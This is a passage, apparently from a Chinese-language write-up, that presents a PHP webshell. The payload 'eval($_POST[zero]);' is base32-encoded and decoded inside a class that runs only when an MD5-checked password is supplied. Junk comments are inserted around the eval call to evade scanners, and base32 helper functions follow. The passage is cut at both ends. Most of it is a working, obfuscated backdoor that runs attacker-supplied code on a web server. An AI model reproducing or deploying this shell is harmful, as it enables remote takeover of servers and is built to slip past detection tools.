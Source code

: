 ```
            $output .= chr($v >> $vbits);  
            $v &= ((1 << $vbits) - 1);  
        }  
    }  
    return $output;  
}  

```

shell如下，直接使用base32处理"eval($_POST[zero]);"

```
<?php  
class ZQIH{  
        public $a = null;  
        public $b = null;  
        public $c = null;  
  
        function __construct(){  
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){  
  
        $this->a = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';  
  
  
  
        $this->LGZOJH = @base32_decode($this->a);  
        @eval/*sopupi3240-=*/("/*iSAC[FH*/".$this->LGZOJH."/*iSAC[FH*/");  
        }}}  
new ZQIH();  
  
function base32_encode($input) {  
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';  
    $output = '';  
    $v = 0;  
    $vbits = 0;  
  
    for ($i = 0, $j = strlen($input); $i < $j; $i++) {  
        $v <<= 8;  
        $v += ord($input[$i]);  
        $vbits += 8;  
  
        while ($vbits >= 5) {  
            $vbits -= 5;  
            $output .= $BASE32_ALPHABET[$v >> $vbits];  
            $v &= ((1 << $vbits) - 1);  
        }  
    }  
  
    if ($vbits > 0) {  
        $v <<= (5 - $vbits);  
        $output .= $BASE32_ALPHABET[$v];  
    }  
  
    return $output;  
}  
  
function base32_decode($input) {  
    $output = '';  
    $v = 0;  
    $vbits = 0;  
  
    for ($i = 0, $j = strlen($input); $i < $j; $i++) {  
        $v <<= 5;  
        if ($input[$i] >= 'a' && $input[$i] <= 'z') {  
```